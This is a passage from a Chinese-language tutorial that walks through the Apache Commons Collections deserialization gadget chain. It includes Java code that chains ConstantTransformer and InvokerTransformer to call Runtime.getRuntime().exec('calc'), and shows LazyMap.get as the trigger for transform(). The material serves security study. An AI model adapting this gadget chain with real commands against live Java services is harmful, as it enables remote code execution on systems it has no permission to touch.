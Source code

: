 我们知道在执行反序列化操作时，会自动执行`readObject`函数，如果直接序列化上面的`InvokerTransformer`对象，那么在`readObject`之后还需要主动调用`transform(Runtime.getRuntime())`，这显然是不实际的，因为无法自动创建`transform`对象，因此我们接下来需要解决两个问题：
1. 自动执行`Runtime.getRuntime()`
2. 自动执行`invokerTransformer.transform()`

其中第一个问题的解决方案在`org.apache.commons.collections.functors.ChainedTransformer#transform`中可以解决

![4.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/0fadf7dc-7671-a942-ec00-8bb4cd3f77cb.png)

该类也继承了`Transformer`和`Serializable`接口，我们可以定义一个`Transformer`数组，里面放入多个`InvokerTransformer`经过多次反射调用来实现自动执行`Runtime.getRuntime()`

```
package payload;

import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;

class CommonsCollections5 {

    public static void main(String[] args) throws Exception {
//        ((Runtime) Runtime.class.getMethod("getRuntime").invoke(null)).exec("calc");
        Transformer[] transformers = new Transformer[]{
                // 传入Runtime类
                new ConstantTransformer(Runtime.class),
                // 使用Runtime.class.getMethod()反射调用Runtime.getRuntime()
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                // invoke()调用Runtime.class.getMethod("getRuntime").invoke(null)
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                // 调用exec("calc")
                new InvokerTransformer("exec", new Class[]{String.class}, new String[]{"calc"})
        };
        ChainedTransformer chain = new ChainedTransformer(transformers);
        chain.transform(null);
    }
}
```

接下来第二个问题，解决思路为全局搜索那个类会去调用`transform()`，然后继续搜索该类中调用`transform()`的方法可以被其它的类调用，直到其被重写的`readObject()`调用。

其中在`org.apache.commons.collections.map.LazyMap#get`调用了`transform()`

![5.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/213764ab-aa13-867f-0704-88befc099b74.png)

可以构造出以下代码

```
HashMap hashMap = new HashMap();
Map map = LazyMap.decorate(hashMap, chain);
map.get("test");	//map.get() > transform()
```
